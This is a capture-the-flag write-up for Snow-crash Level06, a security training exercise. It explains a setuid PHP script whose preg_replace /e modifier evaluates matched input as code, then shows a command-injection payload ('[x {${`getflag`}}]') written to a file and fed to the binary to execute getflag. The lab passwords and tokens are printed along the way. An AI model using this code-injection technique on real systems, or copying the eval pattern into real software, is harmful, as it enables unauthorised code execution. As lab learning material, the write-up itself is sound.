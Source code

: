 ```yaml
---
title:  "Snow-crash Level06"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - [CyberSecurity,Github, Git]

toc: true
toc_sticky: true

date: 2024-2-14
last_modified_at: 2024-02-14
categories: cyber-security
permalink: /cyber-security/snow-crash/
---
```


#### 1. The password of `Level06` is the token that got from `Level05`.

```
viuaaale9huek52boumoomioc
```
#### 2. So, try login to Level06 with the password we got from Level05 and try to put the command `ls`. We can see the file `Level06`. 
```bash
level05@SnowCrash:/var/mail$ su level06
Password:
level06@SnowCrash:~$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

We can see the level06.php file, so I tried to execute it first. Nothing came out but we verified that this php file worked correctly.

```bash
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
#### 3. We can convert this to readable at the site below.

[Online PHP beautifier](https://beautifytools.com/php-beautifier.php)

```bash
#!/usr/bin/php
<?php
function y($m) # Define function y
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)  # Define function x
{
    $a = file_get_contents($y); 
    #Read the contents of file $y
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    # Replace [x ...] with the result of calling function y on the captured group (\2)
    $a = preg_replace("/\[/", "(", $a); # Replace [ with (
    $a = preg_replace("/\]/", ")", $a); # Replace ] with )
    return $a;
}
$r = x($argv[1], $argv[2]); #all function x with command line arguments
print $r; #Print the result
?>
```

If we break down in to the php code,

* Function y($m):

    * Replaces dots (.) with spaces (' x ') and replaces '@' with the string 'y' in the string $m, then returns the result.

* Function x($y, $z): takes two inputs

    * Reads the contents of the file specified by $y and stores it in $a.
    
    * /(\[x (.*)\])/e : The given regular expression is a regular expression used in PHP. It matches a string starting with "x" inside square brackets. The part inside the square brackets is a capture group represented by the pattern (.\*), which matches any string.

    * /e: This flag evaluates the matched pattern and returns it. It is a special flag used only in PHP, allowing the matched pattern to be evaluated as PHP code.

    * Replaces remaining [ and ] characters with ( and ), respectively.

    * Returns the result.

* Variable $r:

    * Stores the result of the x() function call.

* Output:

    * Prints the result.

In summary, this regular expression finds the pattern [x ...] in a string and evaluates it as PHP code, enabling the string to be transformed into dynamically executable PHP code.

<details>
<summary> Example Regex (Regular expression) </summary>
<br><br>
For example, consider the following string:
<br><br>

<pre>
<code>
[x echo "Hello, world!"]
</code>
</pre>
Suppose you want to find the [x ...] part in this string and execute PHP code inside it.
<br><br>
In this case, you can use the regular expression /(\[x (.*)\])/e, and with this regular expression, you can use the preg_replace() function in PHP as follows:

<pre>
<code>
$string = "[x echo \"Hello, world!\"]";
$result = preg_replace('/(\[x (.*)\])/e', "$2", $string);
echo $result; // Output: Hello, world!
</code>
</pre>
<br>
In the above code, $2 represents the second capture group, which corresponds to the PHP code inside the [x ...] part. <br><br>Therefore, the preg_replace() function finds the matching pattern [x ...], evaluates and executes the PHP code inside it (in this case, echo "Hello, world!"), and returns the result.<br><br> 
In this case, it returns the string "Hello, world!"."


</details>

#### 4. We want to modify the input string `[x (anything here)]` so that the second capture group in the regular expression will be replaced by `${'getflag'}`. This way, when the function y() is called, it will execute the command getflag.

#### 5. So, our modified input string should be [x ${'getflag'}]. This will allow us to use variable interpolation to execute the getflag command within the y() function.

```bash
level06@SnowCrash:~$ echo '[x {${`getflag`}}]' > /tmp/getflag
level06@SnowCrash:~$ cat /tmp/getflag
[x {${`getflag`}}]
```

#### 6. And we can get the password as below.

```bash
level06@SnowCrash:~$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable:
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
 ```

 ####  7. We got a token for level07

 ```bash
 Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 ```